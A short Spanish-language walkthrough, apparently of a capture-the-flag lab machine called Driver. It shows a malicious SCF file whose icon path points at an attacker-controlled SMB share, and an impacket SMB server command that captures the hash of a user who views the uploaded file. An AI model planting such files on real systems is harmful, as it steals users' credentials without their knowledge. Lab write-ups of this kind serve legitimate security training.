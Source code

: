 ![](/assets/img/Driver/image_3.png)
## Web Exploitation

Como pone que el `usuario` está `revisando` los `archivos` que subimos podríamos subir un archivo `scf` malicioso [https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/). Vamos a crearnos una archivo llamado `pwned.scf` con el siguiente contenido

```
[Shell] 
Command=2
IconFile=\\10.10.16.16\smbFolder\icon.ico
[Taskbar]
Command=ToggleDesktop
```

Antes de subir el archivo debemos `crearnos` un servidor `SMB` para que se `autentique` contra nosotros cuando el usuario vea el archivo

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

`Subimos` el `archivo` 

![](/assets/img/Driver/image_4.png)
